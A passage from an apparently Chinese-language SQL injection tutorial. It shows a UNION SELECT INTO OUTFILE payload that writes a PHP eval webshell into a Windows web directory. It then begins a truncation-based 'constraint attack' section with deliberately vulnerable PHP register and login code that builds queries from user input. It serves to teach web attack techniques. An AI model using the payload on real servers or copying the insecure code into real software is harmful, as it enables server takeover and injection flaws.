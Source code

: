 `Payload`如下, 需要注意对路径中斜杠的处理(在对`WINDOWS`系统进行注入时):
```sql
UNION SELECT  "<?php eval($_POST['h3rmesk1t'])?>" INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\webshell.php';
```

### 约束攻击
先建立一个用户表:

```sql
CREATE TABLE users(
    username varchar(20),
    password varchar(20)
)
```

表单中的注册代码逻辑:

```php
<?php
    $conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    }
    $username = addslashes(@$_POST['username']);
    $password = addslashes(@$_POST['password']);
    $sql = "select * from users where username = '$username'";
    $rs = mysqli_query($conn,$sql);
    if($rs->fetch_row()){
        die('账号已注册');
    }else{
        $sql2 = "insert into users values('$username','$password')";
        mysqli_query($conn,$sql2);
        die('注册成功');
    }
?>
```

表单中的登录代码逻辑:

```php
<?php
    $conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    }
    $username = addslashes(@$_POST['username']);
    $password = addslashes(@$_POST['password']);
    $sql = "select * from users where username = '$username' and password = '$password';";
    $rs = mysqli_query($conn,$sql);
    if($rs->fetch_row()){
        $_SESSION['username'] = $password;
    }else{
        echo "fail";
    }
?>
```
